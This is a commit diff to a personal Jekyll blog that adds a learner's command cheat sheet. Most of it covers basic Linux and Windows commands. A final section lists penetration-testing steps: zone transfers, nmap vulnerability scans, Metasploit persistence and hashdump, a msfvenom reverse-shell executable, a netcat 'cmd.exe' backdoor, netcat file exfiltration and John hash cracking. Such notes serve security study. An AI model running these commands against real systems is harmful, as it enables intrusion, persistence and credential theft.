

Before and after one commit to blkbrd/blkbrd.github.io, a Jekyll site: the page built from _posts/2017-09-05-Basics-Sheet.md, in a window 1280 px wide. Shown: the whole page at 81% size, without its empty margins (160-1118 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 900 px from its top, so only the background shows below that.

Commit message:
Update 2017-09-05-Basics-Sheet.md
test format

```diff
--- a/_posts/2017-09-05-Basics-Sheet.md
+++ b/_posts/2017-09-05-Basics-Sheet.md
@@ -6,3 +6,154 @@
 <p>
 Here is a formatted list of basic commands. I used these as I was learning how to get my way around and added to the list as I learned new things. Writing them down helped me remember the syntax.
 </p>
+Get Help … and other info
+C:\> <command> /?
+root@kl~# <command> -h
+root@kl~# <command> --help
+root@kl~# man <command>
+root@kl~# apropos
+root@kl~# history
+root@kl~# hostname
+root@kl~# sudo
+root@kl~# whoami
+(print current user id and name)
+root@kl~# date
+C:\>  chdir (displays location)
+root@kl~# pwd
+(displays location)
+Processes and Things
+root@kl~# jobs
+(list cronjobs)
+root@kl~# kill
+(stop processes)
+root@kl~# pkill
+(stop processes)
+root@kl~# ps –aef
+(list processes status)
+C:\ tasklist
+Files
+root@kl~# cp <src> <dst> (copy)
+C:\> copy <src> <dst>
+root@kl~# clear
+C:\> cls
+C:\> dir
+root@kl~# echo <message>
+(print to screen)
+root@kl~# find –iname <file>
+C:\> findstr /i /s <string> *.txt
+(like grep for Windows)
+root@kl~# file
+(determine file type)
+C:\> dir \ <file> /b /s
+root@kl~# grep
+(search files for matching text)
+root@kl~# gzip
+(compress or decompress files)
+root@kl~# less
+(display output one screen at a time)
+root@kl~# locate
+root@kl~# ls
+root@kl~# mkdir
+(new directory)
+root@kl~# mv <src><dst> (move/rename a file)
+C:\>  move <src> <dst>
+root@kl~# rm (remove files)
+C:\> ren (renames file)
+root@kl~# umask
+(users file creation mask)
+root@kl~# uniq
+(uniquify files)
+root@kl~# vi/vim
+(the best text editor)
+root@kl~# wc
+(print byte, word and line counts)
+root@kl~# whereis
+(search $path, man pages and source files for program)
+Users
+root@kl~# chgrp
+(change group ownership)
+root@kl~# chmod
+(change access permissions)
+root@kl~# chown
+(change file owner and group)
+root@kl~# groupadd
+(add a user to a security group)
+root@kl~# passwd
+(modify user password)
+root@kl~# useradd
+(create new users)
+root@kl~# usermod
+(modify user account)
+root@kl~# users
+(list logged in users)
+Networks
+root@kl~# curl (grab webpages)
+root@kl~# dig (DNS lookup)
+root@kl~# ifconfig
+root@kl~# netstat -ano/-plant/-uplant
+(networking connections)
+root@kl~# nslookup
+ (query name servers)
+root@kl~# ping
+root@kl~# ssh
+root@kl~# traceroute
+root@kl~# wget
+(get web pages or files)
+
+
+Reconnaissance
+Discover target’s IP/FQDN domain
+nslookup <domain>
+nslookup <ip>
+Find nameserver for known domain
+	root@kl~# dig <domain>
+perform a zone transfer to list hosts w/in domain
+	root@kl~# dig axfr @<name server> <domain>
+determine route to a host
+	root@kl~# traceroute <ip>
+	C:\> tracert <ip
+scan for services and operating system
+	root@kl~# nmap –sV –O <ip>
+scan for vulns
+	root@kl~# nmap --script=vulns <ip>
+Gain and Maintain
+establish ssh connection
+	root@kl~# ssh <user>@<ip>
+remote desktop (rdesktop is port 3389 and vncviewer is 5900)
+	rdesktop -u <username> -p <password> <ip>
+	vncviewer <ip>
+favorites from the msf console
+	search <keyword>
+	info <module>
+	use <module>
+	show options (shows you what to fill in)
+	show payloads (shows payloads associated with the exploit you loaded)
+	background (use to background sessions)
+	pwd vs lpwd & cd vs lcd
+	sessions –i <#>  (to interact with sessions)
+	run persistence –h
+	run persistence –A –r <your ip> -p <port> -i 10 (call back every 10 seconds if connection is lost)
+	hashdump
+add a route in msf
+	route add <victim subnet> <subnet mask> <session#>
+	route print
+make a msfvenom payload for windows executable
+	root@kl~# msfvenom –p <payload> lhost=<ip> lport=<port> -f exe –i 2 > <file>.exe
+	root@kl~# msfvenom –l encoders (for list of encoders)
+	set up a listener in metasploit
+		use exploit/multi/handler
+		set payload
+		set ExitOnSession false
+		exploit –j (run as a job)
+netcat backdoor
+	root@kl~# nc –l –p <port> (on launch platform)
+	C:\> start nc <launch ip> <port> -e cmd.exe
+Escalate and Propagate
+get passwords using meterpreter or shell (/etc/shadow or hashdump)
+use john to crack NT hashes – remember to add special words you find to the password list in john
+	root@kl~# ./john <file> --format=nt
+transfer files with netcat
+	root@kl~#  nc –l –p <port> > <file> (on your platform to listen for file)
+	C:\> nc.exe <your ip> <port>  <  <file to transfer>
+transfer files with python
+	python –m SimpleHTTPServer <port>
```
